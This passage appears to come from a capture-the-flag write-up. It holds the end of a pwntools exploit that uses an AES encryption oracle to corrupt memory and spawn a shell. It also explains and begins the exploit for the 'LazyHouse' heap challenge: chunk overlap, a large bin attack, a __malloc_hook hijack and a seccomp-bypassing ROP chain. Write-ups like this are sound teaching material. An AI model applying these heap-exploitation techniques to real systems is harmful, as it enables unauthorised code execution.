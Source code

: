 ```python
        c.sendlineafter('size:','15')
        a = AES.new(key=key, IV=''.join(map(chr, buf[:16])), mode=AES.MODE_CBC)
        ct = a.encrypt(''.join(map(chr, buf[pos:pos+0x10])))
        buf[pos:pos+0x10] = map(ord,ct)
        ct0 = c.recv(16,timeout=1)
        assert ct == ct0

    #print ''.join(map(chr,dat)).encode('hex')
    #pause()
    c.sendlineafter('offset:',getoff(freehook-(pie+0x2023a0)-0x10+6-i))
    c.sendlineafter('size:','15')
    a = AES.new(key=key, IV=''.join(map(chr, buf[:16])), mode=AES.MODE_CBC)
    ct = a.encrypt(curd)
    dat[6-i:16+6-i] = map(ord,ct)
    ct0 = c.recv(16,timeout=1)
    print hex(ord(tar[5-i]))
    assert ct == ct0
    print 'true'
    #pause()
    # ???
    dat[:8] = map(ord, p64(0))

#print 'go?'
#pause()
#c.sendlineafter('offset:','0'.ljust(0x800,'0')+';/bin/sh;')
c.sendafter('offset:','0'.ljust(0x800,'0'))
c.sendline('/bin/sh;')
c.sendline('')
#c.sendlineafter('size:','15')
#ct0 = c.recv(16,timeout=1)

c.interactive()
```

### LazyHouse

This challenge allow us `calloc` chunks in any size > 0x7f, and `malloc` only one 0x217 chunk if we have enough money. In `buy` function, size can be a negative number, which can make us very rich, and in `update` function, we can overflow 32bytes beyong one chunk only once. After we get enough money, we use the overflow bug to modify a inused chunk size to overlap next two large chunk, sell the two overlaped chunk and show the victim chunk we can get libc address and heap address. And then, re-buy them and free in a good order to do large bin attack. We use large bin attack overwrite tcache address stored in libc to a large bin address. We fake a tcache which has only one 0x217 free chunk to `__malloc_hook` and malloc it to modify `__malloc_hook` to a `leave;ret;` gadget. Because `malloc` function has a `mov rbp, rdi` in very begin before call `__malloc_hook`, we can do a stack migration to our control heap. Because of seccomp, we get flag by a open/read/write ROP.

```python
#!/usr/bin/env python
# encoding: utf-8

import time, string, pdb, sys
from random import randint
from pwn import remote, process, ELF
from pwn import context
from pwn import p32, p64, u32, u64, asm
from pwn import cyclic, flat

DEBUG = False
if len(sys.argv) == 1:
    DEBUG = True
binaryPath = "./lazyhouse"
libcPath = "libc.so.6"
r = None
```